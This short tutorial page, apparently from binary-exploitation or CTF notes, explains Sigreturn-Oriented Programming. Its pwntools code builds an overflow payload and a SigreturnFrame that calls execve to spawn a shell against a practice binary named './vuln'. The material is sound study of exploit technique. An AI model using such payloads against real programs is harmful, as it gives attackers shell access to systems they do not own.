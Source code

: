 ```yaml
---
title: Sigreturn ROP
---
```

Sigreturn ROP (SROP) is a ROP attack.

Instead of directly calling `sys_execve`, a SROP attack will call `sys_rt_sigreturn` to setup the registers for `sys_execve`, before calling that.

## Sigreturn ROP Chain
To call `sys_rt_sigreturn`, you will need to:
- Set `$rax` to 15 / 0xf
- Execute `syscall`

## SigreturnFrame
Sigreturn will set the register values based on `$rsp` by a specific format.

However, this can be simplified with Pwntool's `SigreturnFrame`.

Before starting, you will need to supply additional context to Pwntools, like so:
```python
elf = context.binary = ELF("./vuln", checksec=False)
p = process()
rop = ROP("./vuln")
```

Now, create a new instance and define the values for the registers. The object expects integers, so no need to use `p64`.
```python
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = BINSH
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = SYSCALL
```

Afterward, convert the object into bytes with `bytes(frame)` and append it into your payload.

## Example Payload
```python
payload = b"A" * 72
payload += p64(rop.rax.address)
payload += p64(0xf)
payload += p64(rop.syscall.address)

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = BINSH
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = rop.syscall.address

payload += bytes(frame)
```